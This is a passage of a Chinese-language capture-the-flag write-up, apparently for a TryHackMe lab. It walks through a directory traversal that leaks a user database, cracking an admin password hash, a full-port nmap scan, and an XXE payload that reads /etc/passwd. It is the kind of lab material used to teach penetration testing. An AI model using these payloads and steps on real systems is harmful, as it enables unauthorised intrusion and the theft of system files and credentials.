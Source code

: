 ```/custom/```存在目录遍历漏洞，在这里找到一个users.bak文件，下载下来用strings命令查看

```
┌──(root💀kali)-[~/Downloads]
└─# strings users.bak               
SQLite format 3
tableusersusers
CREATE TABLE users(username text NOT NULL, password text NOT NULL)
]admin1868e36a6d2b17d4c2745f1659433a54d4bc5f4b

```

我们看到是一个SQLite的用户列表，有用户名和密码：```admin：1868e36a6d2b17d4c2745f1659433a54d4bc5f4b```

哈希拿到[这个牛逼的md5解密网站](https://www.somd5.com/),解出来是：

> bulldog19

所以是什么服务的登陆凭证？试了ssh不行，也找不到登陆页面，重新用一个web字典爆破目录，没有新的目录爆出来

## 全端口扫描
我做lab时有个习惯，一般是用nmap快速扫描常用端口，扫描完后一边开始渗透常用端口，一边再全端口扫描一次，在我回过头来查看全端口扫描时发现这个靶机还有一个http服务在8765端口
```
┌──(root💀kali)-[~/tryhackme/Mustacchio]
└─# nmap -sV -Pn 10.10.7.89 -p-
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-08 01:35 EST
Nmap scan report for 10.10.7.89
Host is up (0.31s latency).
Not shown: 65532 filtered ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
8765/tcp open  http    nginx 1.10.3 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1139.53 seconds

```

浏览器打开是一个登陆页面，就是用上面的登陆凭证。

# xxe攻击

登陆进来有一个留言页面，尝试输入一些信息，没有任何返回，用burpsuite截断http请求，放到repeater，发现回显源码里透露了两个信息

一是输入内容必须是xml格式，二是网页源码里有一行注释：
> Barry, you can now SSH in using your key!

现在我们至少知道有一个ssh用户名：```barry```

我在谷歌上搜索```xxe php```找到了[这篇关于xxe的文章](https://www.kingkk.com/2018/07/%E7%AE%80%E6%9E%90XXE/)

我们构造payload尝试读取```/etc/passwd```里的数据
```
<!DOCTYPE foo [
	<!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<root>
	<name>&xxe;</name>
</root>
```

成功在网页上收到回显
```